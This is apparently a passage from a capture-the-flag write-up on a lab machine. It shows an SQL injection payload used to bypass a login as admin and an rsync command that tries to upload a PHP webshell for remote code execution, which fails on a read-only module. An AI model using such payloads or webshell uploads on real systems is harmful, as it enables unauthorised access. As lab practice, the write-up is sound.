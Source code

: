 
# Exploitation

Trying a simple SQL injection payload worked to authenticate as admins.

```bash
1' or 1337>0-- 
```

<img src="/assets/img/sync/Untitled 2.png" alt="Untitled 2.png" style="width:800px;">

Unfortunately, there wasn’t anything relevant for us.

<img src="/assets/img/sync/Untitled 3.png" alt="Untitled 3.png" style="width:800px;">

Attempting to place a webshell to achieve RCE did not work. We are only granted with read perms.

```bash
rsync -av dusk.php rsync://10.10.78.166/httpd/www/dusk.php
sending incremental file list
ERROR: module is read only
```
